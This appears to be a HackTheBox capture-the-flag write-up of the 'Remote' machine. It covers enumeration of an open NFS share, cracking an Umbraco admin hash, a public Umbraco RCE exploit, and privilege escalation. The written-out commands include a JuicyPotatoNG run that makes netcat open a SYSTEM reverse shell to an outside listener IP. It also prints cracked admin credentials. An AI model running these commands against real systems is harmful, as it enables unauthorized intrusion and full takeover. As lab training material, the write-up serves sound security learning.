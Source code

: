 # HackTheBox
------------------------------------
### IP: 10.129.230.96
### Name: Remote
### Difficulty: Easy
--------------------------------------------

![Remote.png](../assets/remote_assets/Remote.png)

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Remote]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.86.1         
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-26 08:58 CDT
Nmap scan report for 10.129.86.1
Host is up (0.083s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-26T14:59:12
|_  start_date: N/A
|_clock-skew: 59m58s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.21 seconds
```

Looking at port 80 we find a site, mostly featuring lorem ipsum:

![remote_site.png](../assets/remote_assets/remote_site.png)

Kicking off some directory scanning we find several different endpoints:

![remote_dirs.png](../assets/remote_assets/remote_dirs.png)

Before really digging into HTML I want to explore RPC on port 111.

We can see there is a share called `/site_backups` using `showmount`

```
┌──(ryan㉿kali)-[~/HTB/Remote]
└─$ showmount -e 10.129.86.1
Export list for 10.129.86.1:
/site_backups (everyone)
```

I'm going to mount this in my `/tmp`:

```
┌──(ryan㉿kali)-[/tmp/remote]
└─$ sudo mount -t nfs 10.129.86.1:/site_backups /tmp/remote
```

We can then inspect the contents:

![remote_files.png](../assets/remote_assets/remote_files.png)

Looking through the files we find an Umbraco.sdf file.

We can run `strings` against it and find a few potential usernames:

![remote_users.png](../assets/remote_assets/remote_users.png)

Sifting through all the data returned from `strings`, we finally reach the top of the output and discover an admin sha1 hash:

![remote_admin_hash.png](../assets/remote_assets/remote_admin_hash.png)

Which we can crack using crackstation:

![remote_crack.png](../assets/remote_assets/remote_crack.png)

We can then login to the `/umbraco` page with `admin@htb.local:baconandcheese`

![remote_in.png](../assets/remote_assets/remote_in.png)

Clicking on the admin profile button we can see the version `Umbraco version 7.12.4`

Looking for exploits we find: https://github.com/noraj/Umbraco-RCE

### Exploitation

Giving the exploit a shot we can confirm execution:

```
┌──(ryan㉿kali)-[~/HTB/Remote]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.86.1' -c powershell.exe -a '-NoProfile -Command whoami'
iis apppool\defaultapppool
```

Lets now grab a base64 encoded powershell reverse shell and catch a callback to our listener:

![remote_shell.png](../assets/remote_assets/remote_shell.png)

We can now grab the user.txt flag:

![remote_user_flag.png](../assets/remote_assets/remote_user_flag.png)

### Privilege Escalation

Running `whoami /all` we see that SeImpersonatePrivilege is enabled:

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Lets copy over juicypotatoNG and nc64.exe to the target to exploit this.

Once we have our files in place we can set up a new listener and run:

```
PS C:\users\Public\Desktop> ./juicypotatong.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Users\Public\Desktop\nc64.exe 10.10.14.114 445 -e cmd"
```

We then catch a shell back in our listener as system:

```
┌──(ryan㉿kali)-[~/Tools/privesc]
└─$ nc -lnvp 445
listening on [any] 445 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.86.1] 49717
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
nt authority\system
```

And we can grab the final flag:

![remote_root_flag.png](../assets/remote_assets/remote_root_flag.png)

Thanks for following along!

-Ryan

---------------------------------------------------
